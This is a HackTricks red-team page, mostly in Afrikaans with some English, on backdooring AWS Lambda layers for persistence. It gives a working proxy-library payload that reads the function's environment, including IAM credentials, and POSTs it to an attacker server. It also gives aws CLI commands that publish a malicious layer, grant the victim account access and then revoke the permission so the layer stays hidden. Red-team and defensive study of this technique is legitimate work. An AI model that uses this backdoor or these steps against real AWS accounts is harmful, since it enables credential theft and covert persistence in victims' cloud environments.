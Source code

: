 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

'n Lambda-laag is 'n .zip-lêerargief wat **addisionele kode** of ander inhoud **kan bevat**. 'n Laag kan biblioteke, 'n [aangepaste runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, of konfigurasielêers bevat.

Dit is moontlik om tot **vyf lae per funksie** in te sluit. Wanneer jy 'n laag in 'n funksie insluit, word die **inhoud onttrek na die `/opt`** gids in die uitvoeringsomgewing.

Deur **standaard** is die **lae** wat jy skep **privaat** vir jou AWS-rekening. Jy kan kies om 'n laag met ander rekeninge te **deel** of om die laag **publiek** te **maak**. As jou funksies 'n laag gebruik wat 'n ander rekening gepubliseer het, kan jou funksies **voortgaan om die laag weergawe te gebruik nadat dit verwyder is, of nadat jou toestemming om toegang tot die laag te verkry, ingetrek is**. Jy kan egter nie 'n nuwe funksie skep of funksies opdateer wat 'n verwyderde laag weergawe gebruik nie.

Funksies wat as 'n houerbeeld ontplooi word, gebruik nie lae nie. In plaas daarvan, pak jy jou verkiesde runtime, biblioteke, en ander afhanklikhede in die houerbeeld wanneer jy die beeld bou.

### Python laai pad

Die laai pad wat Python in lambda sal gebruik, is die volgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Kontroleer hoe die **tweede** en derde **posisies** beset word deur gidse waar **lambda layers** hul lêers ontsyfer: **`/opt/python/lib/python3.9/site-packages`** en **`/opt/python`**

{% hint style="danger" %}
As 'n aanvaller daarin slaag om 'n gebruikte lambda **layer** te **backdoor** of **een toe te voeg** wat **arbitraire kode sal uitvoer wanneer 'n algemene biblioteek gelaai word**, sal hy in staat wees om kwaadwillige kode met elke lambda-aanroep uit te voer.
{% endhint %}

Daarom is die vereistes:

* **Kontroleer biblioteke** wat deur die slagofferskode **gelaai** word
* Skep 'n **proxy-biblioteek met lambda layers** wat **aangepaste kode sal uitvoer** en die **oorspronklike** biblioteek **sal laai**.

### Vooraf gelaaide biblioteke

{% hint style="warning" %}
Wanneer ek hierdie tegniek misbruik, het ek 'n moeilikheid gevind: Sommige biblioteke is **reeds gelaai** in die python runtime wanneer jou kode uitgevoer word. Ek het verwag om dinge soos `os` of `sys` te vind, maar **selfs die `json` biblioteek was gelaai**.\
Om hierdie volhardingstegniek te misbruik, moet die kode 'n **nuwe biblioteek laai wat nie gelaai is** wanneer die kode uitgevoer word.
{% endhint %}

Met 'n python kode soos hierdie is dit moontlik om die **lys van biblioteke wat vooraf gelaai is** binne python runtime in lambda te verkry:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
En dit is die **lys** (kontroleer dat biblioteke soos `os` of `json` reeds daar is)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
En dit is die lys van **biblioteke** wat **lambda standaard ingesluit het**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Laag Backdooring

In hierdie voorbeeld kom ons veronderstel dat die geteikende kode **`csv`** invoer. Ons gaan die **invoer van die `csv` biblioteek backdoor**.

Om dit te doen, gaan ons die **gids csv** skep met die lêer **`__init__.py`** daarin in 'n pad wat deur lambda gelaai word: **`/opt/python/lib/python3.9/site-packages`**\
Dan, wanneer die lambda uitgevoer word en probeer om **csv** te laai, sal ons **`__init__.py` lêer gelaai en uitgevoer** word.\
Hierdie lêer moet:

* Ons payload uitvoer
* Die oorspronklike csv biblioteek laai

Ons kan albei doen met:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Then, create a zip with this code in the path **`python/lib/python3.9/site-packages/__init__.py`** and add it as a lambda layer.

You can find this code in [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

The integrated payload will **send the IAM creds to a server DIE EERSTE KEER wat dit aangeroep word of NA 'n reset van die lambda houer** (verandering van kode of koue lambda), but **ander tegnieke** such as the following could also be integrated:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### External Layers

Note that it's possible to use **lambda layers from external accounts**. Moreover, a lambda can use a layer from an external account even if it doesn't have permissions.\
Also note that the **max number of layers a lambda can have is 5**.

Therefore, in order to improve the versatility of this technique an attacker could:

* Backdoor an existing layer of the user (niets is ekstern)
* **Skep** 'n **laag** in **sy rekening**, gee die **slagoffer rekening toegang** om die laag te gebruik, **konfigureer** die **laag** in die slagoffer se Lambda en **verwyder die toestemming**.
* Die **Lambda** sal steeds in staat wees om die **laag** te **gebruik** en die **slagoffer sal** nie enige maklike manier hê om die **laag se kode af te laai** (behalwe om 'n rev shell binne die lambda te kry)
* Die slagoffer **sal nie eksterne lae** sien wat gebruik word met **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
